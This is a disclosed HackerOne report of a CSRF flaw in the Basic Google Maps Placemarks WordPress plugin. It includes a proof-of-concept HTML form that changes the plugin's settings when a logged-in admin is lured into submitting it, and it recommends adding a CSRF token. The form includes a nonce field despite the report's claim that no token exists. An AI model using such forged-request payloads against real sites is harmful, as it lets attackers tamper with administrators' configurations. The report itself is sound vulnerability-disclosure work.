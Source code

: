 # CSRF in changing settings of Basic Google Maps Placemarks

## Report Details
- **Report ID**: 153580
- **URL**: https://hackerone.com/reports/153580
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-24T20:32:24.114Z
- **Disclosed**: 2016-07-25T14:27:17.426Z

## Reporter
- **Username**: ahsan
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: iandunn-projects

## Vulnerability Information
Hey, this is Ahsan Tahir! 

I was just pentesting Basic Google Maps Placemarks in Wordpress, I found a CSRF (Cross-Site Request Forgery) So, by exploiting this CSRF issue, an attacker can edit the settings (e.g Map Width, Map Height, Map Center Address etc..) 

#PoC 
There is not CSRF token/Authentication token when changing settings of Basic Google Maps Placemarks (http://localhost/wordpress/wp-admin/options-general.php?page=bgmp_settings)

So, we can exploit it with the following code:

##Exploit Code
```
<html>
  <body>
    <form action="http://localhost/wordpress/wp-admin/options.php" method="POST">
      <input type="hidden" name="option&#95;page" value="bgmp&#95;settings" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="&#95;wpnonce" value="a9ef057ff9" />
      <input type="hidden" name="&#95;wp&#95;http&#95;referer" value="&#47;wordpress&#47;wp&#45;admin&#47;options&#45;general&#46;php&#63;page&#61;bgmp&#95;settings" />
      <input type="hidden" name="bgmp&#95;map&#45;width" value="testing" />
      <input type="hidden" name="bgmp&#95;map&#45;height" value="testing" />
      <input type="hidden" name="bgmp&#95;map&#45;address" value="testing" />
      <input type="hidden" name="bgmp&#95;map&#45;zoom" value="7" />
      <input type="hidden" name="bgmp&#95;map&#45;type" value="ROADMAP" />
      <input type="hidden" name="bgmp&#95;map&#45;type&#45;control" value="off" />
      <input type="hidden" name="bgmp&#95;map&#45;navigation&#45;control" value="DEFAULT" />
      <input type="hidden" name="bgmp&#95;map&#45;info&#45;window&#45;width" value="testing" />
      <input type="hidden" name="bgmp&#95;cluster&#45;max&#45;zoom" value="testing" />
      <input type="hidden" name="bgmp&#95;cluster&#45;grid&#45;size" value="testing" />
      <input type="hidden" name="bgmp&#95;cluster&#45;style" value="default" />
      <input type="hidden" name="submit" value="Save&#32;Changes" />
      <input type="hidden" name="closedpostboxesnonce" value="faa425ff22" />
      <input type="hidden" name="&#95;wp&#95;http&#95;referer" value="&#47;wordpress&#47;wp&#45;admin&#47;options&#45;general&#46;php&#63;page&#61;bgmp&#95;settings" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

If you run above HTML code in your browser, when you are logged in to your wordpress, and click on submit request, *every* value of http://localhost/wordpress/wp-admin/options-general.php?page=bgmp_settings will be set to "testing" 

This one is a small, but effective CSRF; effective because if anyone tricks the admin into clicking the button, or even visiting the page (JavaScript is used in that type of exploit code!) The settings will be changed automatically!

###How to Fix?
The fix is simple, add a CSRF token in the request/form for editing the settings of Basic Google Maps Placemarks! 

Hoping for your positive response! ✌

If you have any other questions or if anything needs clarification, please let me know.

Cheers,
Ahsan

## Attachments
No attachments
